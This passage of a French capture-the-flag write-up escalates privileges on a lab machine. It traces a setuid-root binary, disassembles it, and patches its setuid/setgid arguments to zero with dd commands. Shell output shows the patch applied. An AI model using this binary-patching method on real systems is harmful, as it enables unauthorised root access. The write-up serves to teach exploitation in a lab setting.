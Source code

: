 ```console
$ ltrace ./suidyyyyy 
setuid(1005)                                                                                                                      = -1
setgid(1005)                                                                                                                      = -1
system("/bin/bash"
```

On va noter les adresses des instructions dans le binaire (ouvert avec `Cutter`) :

```nasm
int main(int argc, char **argv, char **envp);
0x00001155      push    rbp
0x00001156      mov     rbp, rsp
0x00001159      mov     edi, data.000003ed ; 0x3ed
0x0000115e      call    setuid     ; sym.imp.setuid
0x00001163      mov     edi, data.000003ed ; 0x3ed
0x00001168      call    setgid     ; sym.imp.setgid
0x0000116d      lea     rdi, str.bin_bash ; 0x2004 ; const char *string
0x00001174      mov     eax, 0
0x00001179      call    system     ; sym.imp.system ; int system(const char *string)
0x0000117e      mov     eax, 0
0x00001183      pop     rbp
0x00001184      ret
```

Voici les adresses :

```python
$ python3
Python 3.12.4 (main, Jul  8 2024, 21:18:15) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x00001159
4441
>>> 0x00001163
4451
```

On retrouve la valeur `0x3ed` (soit 1005) dans le dump hexadécimal :

```console
$ hexdump -C -s 4441 -n 32 suidyyyyy 
00001159  bf ed 03 00 00 e8 ed fe  ff ff bf ed 03 00 00 e8  |................|
00001169  d3 fe ff ff 48 8d 3d 90  0e 00 00 b8 00 00 00 00  |....H.=.........|
00001179
```

Je vais éditer les deux instructions assembleur `mov` pour écrire `0` à la place de `1005` :

```bash
echo -ne '\x00\x00' | dd of=suidyyyyy bs=1 seek=4442 count=2 conv=notrunc
echo -ne '\x00\x00' | dd of=suidyyyyy bs=1 seek=4452 count=2 conv=notrunc
```

Exécution :

```console
theuser@suidyrevenge:/home/suidy$ ls -l suidyyyyy 
-rwsrws--- 1 root theuser 16712 Oct  2  2020 suidyyyyy
theuser@suidyrevenge:/home/suidy$ echo -ne '\x00\x00' | dd of=suidyyyyy bs=1 seek=4442 count=2 conv=notrunc
2+0 records in
2+0 records out
2 bytes copied, 0.00113622 s, 1.8 kB/s
theuser@suidyrevenge:/home/suidy$ echo -ne '\x00\x00' | dd of=suidyyyyy bs=1 seek=4452 count=2 conv=notrunc
2+0 records in
2+0 records out
2 bytes copied, 0.00029252 s, 6.8 kB/s
```